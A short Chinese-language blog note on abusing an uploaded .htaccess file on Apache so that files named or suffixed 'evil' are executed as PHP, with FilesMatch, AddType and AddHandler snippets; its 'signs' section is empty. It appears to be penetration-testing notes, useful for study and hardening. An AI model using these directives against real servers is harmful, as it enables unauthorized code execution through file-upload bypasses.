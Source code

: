 ```yaml
---
layout: post
title: Apache2 Arbitrary File Execution
data: 2020-01-13
categories: Notes
tags: 
 - Apache2
 - Execution
description:
---
```


# 上传.htaccess文件

.htaccess文件作用于当前目录及其子目录，可以实现：网页301重定向、自定义404错误页面、改变文件扩展名、允许/阻止特定的用户或者目录的访问、禁止目录列表、配置默认文档等功能。

这里主要记录一下通过上传.htaccess文件修改Apache的解析规则的方法，以实现将任意文件作为php文件执行。

## 利用前提

管理员需要设置Apache的AllowOerride指令，以使htaccess文件有效。

## 利用特征

当目标网站出现以下特征时，说明管理员允许了.htaccess文件的使用。

## 利用方法

1. 以下内容可以使Apache用PHP解析任意文件名包含`evil`字样的文件。

    ```
    <FilesMatch "evil">
    	SetHandler application/x-httpd-php
    </FilesMatch>
    ```

2. 以下任一内容可以使Apache用PHP解析任意后缀为`.evil`的文件。

    ```
    AddType application/x-httpd-php .evil
    ```

    ```
    AddHandler php5-script .evil
    ```

    ```
    AddHandler php7-script .evil
    ```

    